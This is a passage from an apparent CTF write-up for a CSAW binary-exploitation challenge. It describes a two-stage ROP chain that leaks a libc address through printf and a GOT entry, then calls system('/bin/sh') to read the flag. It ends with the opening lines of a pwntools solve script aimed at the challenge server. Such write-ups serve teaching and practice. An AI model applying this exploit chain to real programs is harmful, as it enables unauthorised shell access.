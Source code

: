 ## Getting a shell

Using the payload we constructed above, we can an adjust-gadget that pops a
few  
things off the stack, in order to land inside our stack buffer.

We found a gadget that pops into irrelevant registers 4 times, landing exactly  
after our crafted class pointer in the stack buffer.

From that point, we have ROP, and can ROP to `printf` in order to leak a GOT  
entry and recover the libc base address. After that, we ROP back to main in  
order to send a second ROP-chain and jump to libc's `system`

Stage 1 ROP-chain:

```py  
data = b"%sEND"

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)  
rop.raw(setvbuf_got)  
rop.raw(0)

rop.raw(printf_plt)  
rop.raw(main_addr)  
```

Using that knowledge, we can now calculate the address of `system` in the libc  
and get a shell:

Stage 2 ROP-chain:

```py  
data = b"/bin/sh"  
  
rop.raw(rop_rdi)  
rop.raw(turtle + base_data)  
rop.raw(libc.symbols[b"system"])  
```

With that, we can execute `cat flag` and get the flag:

```  
flag{i_like_turtl3$_do_u?}  
```

## The Script

This is the python script used to solve the challenge, after being cleaned up
a  
bit:

```py  
from pwn import *

context.arch = "amd64"

r = remote("pwn.chal.csaw.io", 9003)

libc = ELF("libs-nopreload/libc.so.6")

r.readuntil(b": ")  
turtle = int(r.readline(), 16)  
print("turtle address: 0x{:016x}".format(turtle))

main_addr = 0x400B84  
class_turtle = 0x6014c0
```